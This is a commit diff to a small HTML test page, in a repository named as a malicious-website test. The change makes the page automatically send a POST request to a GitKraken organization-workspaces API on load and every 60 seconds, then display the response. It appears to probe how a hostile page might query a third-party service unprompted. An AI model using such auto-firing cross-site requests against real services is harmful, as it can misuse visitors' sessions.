

Before and after one commit to SazzatZilanSifat/malicious-website-test, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -12,9 +12,11 @@
     <h2>Response Data from Your Website:</h2>
     <pre id="responseData"></pre>  <!-- Where we show the data -->
 
+    <h3>Next Refresh in: <span id="timer">60</span> seconds</h3> <!-- Timer countdown -->
+
     <script>
-        document.getElementById('sendRequest').addEventListener('click', function() {
-            // Send a POST request to your website's API endpoint
+        // Function to send the request and get the data
+        function sendRequest() {
             fetch('https://gitkraken.dev/api/organizations/68d29998bced52677d0f6e64/workspaces', {
                 method: 'POST',
                 headers: {
@@ -38,13 +40,40 @@
             .then(response => response.json())  // Parse JSON response from the server
             .then(data => {
                 // If data is received, display it on the page
-                console.log('Response from your website:', data);  // Log the response
+                console.log('Response from your website:', data);
                 document.getElementById('responseData').textContent = JSON.stringify(data, null, 2);  // Show it on the page
             })
             .catch(error => {
                 console.error('Error:', error);  // If an error occurs, log it
             });
-        });
+        }
+
+        // Function to start the timer and update every second
+        function startTimer() {
+            let countdown = 60; // Start countdown at 60 seconds
+            const timerElement = document.getElementById('timer');
+
+            // Update the timer every second
+            const interval = setInterval(() => {
+                timerElement.textContent = countdown;
+                countdown--;
+
+                // When the timer reaches zero, send the request again and reset the timer
+                if (countdown < 0) {
+                    sendRequest();  // Send the request to your website
+                    countdown = 60; // Reset the timer to 60 seconds
+                }
+            }, 1000); // Update every 1000ms (1 second)
+        }
+
+        // Initial request when the page loads
+        sendRequest();
+
+        // Start the timer as soon as the page is loaded
+        startTimer();
+
+        // If you want to send a request manually too, uncomment the next line:
+        // document.getElementById('sendRequest').addEventListener('click', sendRequest);
     </script>
 </body>
 </html>
```
